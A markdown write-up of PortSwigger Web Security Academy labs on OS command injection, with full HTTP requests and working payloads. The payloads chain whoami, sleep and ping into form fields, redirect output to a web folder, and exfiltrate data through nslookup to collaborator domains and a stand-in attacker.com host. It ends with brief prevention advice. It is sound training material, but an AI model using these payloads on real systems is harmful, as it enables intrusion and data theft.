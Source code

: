 # OS command injection


<details>
  <summary>Lab: OS command injection, simple case</summary>

> ###  This lab contains an OS command injection vulnerability in the product stock checker.The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

> To solve the lab, execute the ``whoami`` command to determine the name of the current user. 

---

```http
POST /product/stock HTTP/2
Host: 0ab600310469ed45802f12260076000d.web-security-academy.net
Cookie: session=7KilxApzO1M9KGCtQBlkx9sG5MambgGs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab600310469ed45802f12260076000d.web-security-academy.net/product?productId=20
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0ab600310469ed45802f12260076000d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



productId=20&storeId=1
```


```url
productId=20&storeId=1|whoami
productId=20&storeId=1;whoami
```

``output``

```css
peter-uTFecW
```



  
</details>











<details>
  <summary>Lab: Blind OS command injection with time delays</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a ``10 second`` delay. 


---


```http
POST /feedback/submit HTTP/2
Host: 0aec0019044339aa8183eed900a700bb.web-security-academy.net
Cookie: session=UpWx4wsAbuhkNEr75meJinFiJae3vxOM
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: https://0aec0019044339aa8183eed900a700bb.web-security-academy.net
Referer: https://0aec0019044339aa8183eed900a700bb.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com&subject=hack&message=hello;
```




```bash
csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com||ping+-c+10+127.0.0.1||&subject=hack&message=hello;
csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com||sleep+10||&subject=hack&message=hello;
```







  
</details>





<details>
  <summary>Lab: Blind OS command injection with output redirection</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:``/var/www/images/``

> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

> To solve the lab, execute the ``whoami`` command and retrieve the output. 



---

```
POST /feedback/submit HTTP/2
Host: 0ae3008f0323db578143254500a10043.web-security-academy.net
Cookie: session=7r1pMaXUqstxBss3DmNyzzo4jwQTsXF0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0ae3008f0323db578143254500a10043.web-security-academy.net
Referer: https://0ae3008f0323db578143254500a10043.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=example@admin.com&subject=c&message=d
```


```url
csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=||whoami>/var/www/images/output.txt||&subject=c&message=d
```


```url
https://0ae3008f0323db578143254500a10043.web-security-academy.net/image?filename=output.txt
```

``OUtput``

```
peter-p9zLde
```



  
</details>







<details>
  <summary>Lab: Blind OS command injection with out-of-band interaction</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

> To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 


---


```
csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=||nslookup crudrnshcmhythtyywai7uanxa8alegy6.oast.fun||&subject=c&message=d
```


```http
POST /feedback/submit HTTP/2
Host: 0a29003e046665bd800c3ff5002d00b7.web-security-academy.net
Cookie: session=FcuWQIKRQb5Q7A0SyFLymsB3m9BnssqE
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 128
Origin: https://0a29003e046665bd800c3ff5002d00b7.web-security-academy.net
Referer: https://0a29003e046665bd800c3ff5002d00b7.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


csrf=hwEGtU6kixR7HQpa2LJ6TosadLEhzZQI&name=a&email=||nslookup 3nr9zc2d8zyrl5z1cjkw6lrtgkmba5yu.oastify.com||&subject=c&message=d
```

  
</details>






<details>
  <summary>Lab: Blind OS command injection with out-of-band data exfiltration</summary>


```bash
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```


```http
POST /feedback/submit HTTP/2
Host: 0a1a008a04dbfe72825bad31007200e8.web-security-academy.net
Cookie: session=AsET6SHMlw9nsqfhej24Fsmbl3XFaULl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Origin: https://0a1a008a04dbfe72825bad31007200e8.web-security-academy.net
Referer: https://0a1a008a04dbfe72825bad31007200e8.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


csrf=0r5okHrEitjGNdhMDrIK7rKcZ0IkYkwt&name=a&email=||nslookup+`whoami`.irdo3r6sce26pk3ggyoba0v8kzqqeo2d.oastify.com||&subject=a&message=a
```



<img width="1607" height="646" alt="image" src="https://github.com/user-attachments/assets/1817543c-6423-4102-9931-9cbaefc77b78" />



  
</details>















---


## Ways of injecting OS commands

> You can use a number of shell metacharacters to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems: 

```bash

    &
    &&
    |
    ||

```



On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command: 


```bash
ping `whoami`.attacker.com
# أو
ping $(whoami).attacker.com

```



<details>
  <summary>How to prevent OS command injection attacks</summary>

> ### The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code.

> ### If you have to call out to OS commands with user-supplied input, then you must perform strong input validation. Some examples of effective validation include:  



   * Validating against a whitelist of permitted values.
   * Validating that the input is a number.
   * Validating that the input contains only alphanumeric characters, no other syntax or whitespace.


  
</details>








